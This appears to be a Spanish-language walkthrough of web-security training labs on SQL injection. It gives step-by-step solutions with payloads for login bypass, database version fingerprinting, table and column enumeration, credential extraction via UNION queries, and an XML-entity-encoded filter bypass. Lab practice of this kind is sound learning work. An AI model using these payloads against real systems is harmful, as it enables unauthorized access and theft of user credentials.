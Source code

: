 ## SQL Injection

---

### 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data


1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+OR+1=1--`.
3. Accede a la URL modificada.

---

### 2. SQL injection vulnerability allowing login bypass


1. Haz clic en "My account".
2. Inicia sesión usando el usuario: `administrator'--`.
3. En el campo de contraseña, ingresa cualquier valor.
4. Haz clic en "Log in".

---

### 3. SQL injection attack, querying the database type and version on Oracle


1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena:

```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

3. Accede a la URL modificada.

---

### 4. SQL injection attack, querying the database type and version on MySQL and Microsoft
SQL Injection para consultar el tipo y versión de la base de datos en MySQL y Microsoft

1. Accede a la categoría "Gifts".
2. Agrega a la URL la siguiente cadena:

   ```
   %27%20UNION%20SELECT%20%40%40version,%20%27def%27%20%23
   ```
3. Accede a la URL modificada.

---

### 5. SQL injection attack, listing the database contents on non-Oracle databases


1. Accede a la categoría "Pets".
2. Agrega a la URL la siguiente cadena:

   ```
   '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
   ```
3. Accede a la URL modificada para ver las tablas existentes.
4. Encuentra la tabla objetivo (por ejemplo, `users_kkyhth`).
5. Modifica la URL agregando la siguiente cadena:

   ```
   '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kkyhth'--
   ```
6. Accede a la URL modificada para ver las columnas de la tabla.
7. Encuentra las columnas de credenciales (por ejemplo, `username_lgajcw` y `password_ckilco`).
8. Modifica la URL agregando la siguiente cadena:

   ```
   %27+UNION+SELECT+username_lgajcw,+password_ckilco+FROM+users_kkyhth--
   ```
9. Usa las credenciales del administrador para iniciar sesión.

---

### 6. SQL injection attack, listing the database contents on Oracle


1. Determina el número de columnas y su tipo:
   Usa la siguiente carga útil en el parámetro `category`:

   ```sql
   '+UNION+SELECT+'abc','def'+FROM+dual--
   ```
2. Recupera la lista de tablas:
   Usa la siguiente carga útil:

   ```sql
   '+UNION+SELECT+table_name,NULL+FROM+all_tables--
   ```
3. Encuentra la tabla de credenciales.
4. Recupera los detalles de las columnas:
   Usa la siguiente carga útil (reemplaza `USERS_ABCDEF` con el nombre de la tabla):

   ```sql
   '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
   ```
5. Encuentra las columnas de nombres de usuario y contraseñas.
6. Recupera las credenciales:
   Usa la siguiente carga útil (reemplaza los nombres de la tabla y las columnas):

   ```sql
   '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
   ```

---

### 7. SQL injection UNION attack, determining the number of columns returned by the query

1. Accede a la categoría "Gifts".
2. Agrega a la URL la siguiente cadena:

   ```
   ' UNION SELECT NULL,NULL,NULL--
   ```
3. Accede a la URL modificada.

---

### 8. SQL injection UNION attack, finding a column containing text

1. Accede a la categoría "Accessories".
2. Agrega a la URL la siguiente cadena (la letra 'A' debe ser específicamente la cadena que pide el lab, por ejemplo, 'rVp9g6'):

   ```
   'UNION SELECT NULL,'A',NULL--
   ```
3. Accede a la URL modificada.

---

### 9. SQL injection UNION attack, retrieving data from other tables

1. Accede a la categoría "Gifts".
2. Agrega a la URL la siguiente cadena:

   ```
   ' UNION SELECT NULL,NULL--
   ```
3. Accede a la URL modificada; si no hay un error del servidor, es que se necesitan solo dos columnas para el ataque.
4. Modifica la url reemplazando la cadena agregada en el paso 2 por la siguiente cadena:

   ```
   ' UNION SELECT 'A','A'--
   ```
5. El paso anterior es para comprobar que se pueden insertar strings en la consulta; Ahora modifica nuevamente la url reemplazando la cadena agregada en el paso 4 por la siguiente cadena:

   ```
   ' UNION SELECT username, password FROM users--
   ```
6. Usa las credenciales del administrador para iniciar sesión.

---

### 18. SQL injection with filter bypass via XML encoding
SQL Injection con bypass de filtros mediante codificación XML

1. Abre las herramientas de desarrollo (F12).
2. Ve a la pestaña "Network".
3. Haz clic en los detalles de un producto.
4. Haz clic en "Check stock".
5. Copia la petición que recupera el stock como `fetch`.
6. Ve a la pestaña "Console".
7. Pega la petición.
8. Modifica el contenido de la etiqueta `storeId` por:
   ```xml
   &#x31;&#x20;&#x55;&#x4E;&#x49;&#x4F;&#x4E;&#x20;&#x53;&#x45;&#x4C;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6E;&#x61;&#x6D;&#x65;&#x20;&#x7C;&#x7C;&#x27;&#x7E;&#x27;&#x20;&#x7C;&#x7C;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6F;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4F;&#x4D;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
   ```
9. Ejecuta la petición.
10. Usa las credenciales que muestra el `response` para iniciar sesión como administrador.
